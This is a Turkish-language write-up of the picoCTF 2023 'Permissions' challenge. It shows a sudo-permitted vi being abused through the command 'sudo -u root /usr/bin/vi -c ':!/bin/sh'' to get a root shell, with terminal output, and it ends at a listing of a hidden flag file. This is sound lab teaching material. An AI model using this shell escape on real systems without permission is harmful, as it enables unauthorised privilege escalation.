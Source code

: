 ```yaml
---
title: 'picoCTF 2023 | Permissions WriteUp'
author: 'appdone'
categories: [picoCTF 2023 Challenges]
tags: [sudo]
render_with_liquid: false
---
```


Bu yazımda, picoCTF platformunda yer alan "Permissions" isimli meydan okumayı çözeceğiz. Amacımız picoCTF tarafından sağlanan linux sistemde yetki yükselterek /root dizininden bayrağı almaktır.

```console
picoplayer@challenge:~$ sudo -l
[sudo] password for picoplayer:
Matching Defaults entries for picoplayer on challenge:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User picoplayer may run the following commands on challenge:
    (ALL) /usr/bin/vi
picoplayer@challenge:~$
```

Sisteme bağlandıktan sonra ilk iş "sudo -l" komutunu kullandım ve vi aracını istediğim kullanıcının yetkisiyle çalıştırabileceğimi gördüm. -c parametresi ile seçilen programlama dilini kullanarak komut çalıştırabileceğimi biliyorum.

```
sudo -u root /usr/bin/vi -c ':!/bin/sh'
```

Komutu çalıştırdığımızda root haklarına sahip oluyoruz. Geriye sadece root dizinindeki bayrağı almak kalıyor. O da başına '.' konarak gizlenmiş. -a parametresini kullanarak görüntüleyebiliyoruz.

```console
picoplayer@challenge:~$ sudo -l
Matching Defaults entries for picoplayer on challenge:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User picoplayer may run the following commands on challenge:
    (ALL) /usr/bin/vi
picoplayer@challenge:~$ sudo -u root /usr/bin/vi -c ':!/bin/sh'
# id
uid=0(root) gid=0(root) groups=0(root)
# cd /root
# ls -la
total 12
drwx------ 1 root root   23 Aug  4  2023 .
drwxr-xr-x 1 root root   51 Mar 14 21:47 ..
-rw-r--r-- 1 root root 3106 Dec  5  2019 .bashrc
-rw-r--r-- 1 root root   35 Aug  4  2023 .flag.txt
-rw-r--r-- 1 root root  161 Dec  5  2019 .profile
```
